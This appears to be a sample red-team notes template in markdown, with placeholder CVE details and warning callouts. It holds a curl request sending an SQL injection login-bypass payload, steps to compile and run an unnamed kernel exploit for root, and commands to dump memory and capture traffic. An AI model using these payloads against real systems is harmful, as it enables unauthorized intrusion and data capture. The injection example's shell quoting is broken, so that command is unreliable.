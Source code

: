 # Red Team Notes Example

## Table of Contents
1. [Initial Access](#initial-access)
2. [Privilege Escalation](#privilege-escalation)
3. [Post-Exploitation](#post-exploitation)

> ⚠️ **CRITICAL**: Remote Code Execution vulnerability discovered
> - CVE-2024-1234
> - CVSS Score: 9.8

## Initial Access

Used the following payload to gain access:

```bash
curl -X POST https://target.com/api/v1/auth \
  -H "Content-Type: application/json" \
  --data '{"username": "admin", "password": "' OR 1=1--"}'
```
> 🛡️ **SECURITY WARNING**: This payload exploits an SQL injection vulnerability. Use it only in a controlled environment.

## Privilege Escalation

> ⚡ **WARNING**: Exercise caution when executing these commands

Found kernel exploit:

```bash
gcc -o exploit exploit.c
./exploit
id # now running as root
```
> 🛡️ **SECURITY WARNING**: Running this exploit will give you root access. Ensure you have permission to perform this action.

## Post-Exploitation

> 📝 **NOTE**: Remember to collect:
> - System logs
> - Memory dumps
> - Network captures

```bash
# Example commands to collect data
dmesg > /tmp/system_logs.txt
dd if=/dev/mem of=/tmp/memory_dump.bin
tcpdump -w /tmp/network_capture.pcap
```
> 🛡️ **SECURITY WARNING**: Collecting these artifacts may impact system performance. Ensure you have permission to perform this action.